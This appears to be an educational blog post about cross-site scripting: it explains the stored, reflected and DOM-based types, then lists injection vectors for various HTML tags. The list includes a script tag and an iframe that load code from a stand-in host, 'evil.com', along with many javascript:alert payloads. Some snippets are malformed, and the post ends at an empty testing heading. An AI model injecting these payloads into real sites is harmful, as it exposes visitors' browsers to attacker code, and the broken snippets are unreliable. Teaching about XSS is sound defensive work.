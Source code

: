```yaml
---
layout: post
title: "Cross Site Scripting (XSS) Vulnerabilities"
date: 2023-09-09
image: ../../assets/img/Posts/xss2.png
categories: [HackTheBox, Starting_Point]
tags: [docker, trilium, notes, ubuntu, self-hosted]
---
```




# CROSS SITE SCRIPTING (XSS) VULNERABILITY

>- Is A Client-side Code Injection Attack
>- Executes Malicious Scripts In A Web Browser
>- Actual Attack Occurs When Victim Visits D Web Page That Execute Malicious Code

## CAUSES OF XSS
- UNSANITIZED USER INPUT
- XSS ARE POSSIBLE IN VBSCRIPT, ACTIVEX, AND EVEN CSS. BUT MOST COMMON IS JAVASCRIPT AS IT IS THE FUNDAMENTAL TO BROWSING EXPERIENCE.

## TYPES OF XSS
- SELF XSS
- STORED XSS (MOST DAMAGING)
		An attacker uses Stored XSS to inject malicious content (referred to as the payload), most often JavaScript code, into the target application. If there is no input validation, this malicious code is permanently stored (persisted) by the target application, for example within a database. For example, an attacker may enter a malicious script into a user input field such as a blog comment field or in a forum post.
		When a victim opens the affected web page in a browser, the XSS attack payload is served to the victim’s browser as part of the HTML code (just like a legitimate comment would). This means that victims will end up executing the malicious script once the page is viewed in their browser.

- REFLECTED XSS (2ND MOST DAMAGING)
		the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server. The reflected XSS payload is then executed in the user’s browser.
		Reflected XSS is not a persistent attack, so the attacker needs to deliver the payload to each victim. These attacks are often made using social networks.

- DOM-BASED XSS (STANDARD)
		A DOM-based XSS attack is often a client-side attack and the malicious payload is never sent to the server. This makes it even more difficult to detect for Web Application Firewalls (WAFs) and security engineers who analyze server logs because they will never even see the attack. DOM objects that are most often manipulated include the URL (document.URL), the anchor part of the URL (location.hash), and the Referrer (document.referrer).


## XSS ATTACK VECTORS
- `<script>` TAG
```bash
		 <!-- External script -->
		 <script src=http://evil.com/xss.js></script>
		 <!-- Embedded script -->
		 <script> alert("XSS"); </script>
```

- `jAVASCRIPT EVENTS [onload and onerror]`
```bash
		 <body onload=alert=("XSS")>
```

- `<body> tag`
```bash
		<body background="javascript:alert("XSS")">
```

- `<img> tag`
```bash
		<!-- <img> tag XSS -->
		<img src="javascript:alert("XSS");">
		<img """><script>alert("XSS")</script>"\>
		<!--  tag XSS using lesser-known attributes -->
		<img dynsrc="javascript:alert('XSS')">
		<img lowsrc="javascript:alert('XSS')">
```

- `<table> tag`
```bash
		<!-- <table> tag XSS -->
		<table background="javascript:alert('XSS')">
		<!-- <td> tag XSS -->
		<td background="javascript:alert('XSS')">
```
- `<iframe> tag`
```bash
		<!-- <iframe> tag XSS -->
		<iframe src="http://evil.com/xss.html">
```

- `<input> tag`
```bash
		<!-- <input> tag XSS -->
		<input type="image" src="javascript:alert('XSS');">
```

- `<link> tag`
```bash
		<!-- <link> tag XSS -->
		<link rel="stylesheet" href="javascript:alert('XSS');">
```

- `<div> tag`
```bash
		<!-- <div> tag XSS -->
		<div style="background-image: url(javascript:alert('XSS'))">
		<!-- <div> tag XSS -->
		<div style="width: expression(alert('XSS'));">
```

> ETC....

## Testing for XSS Vulnerabilities
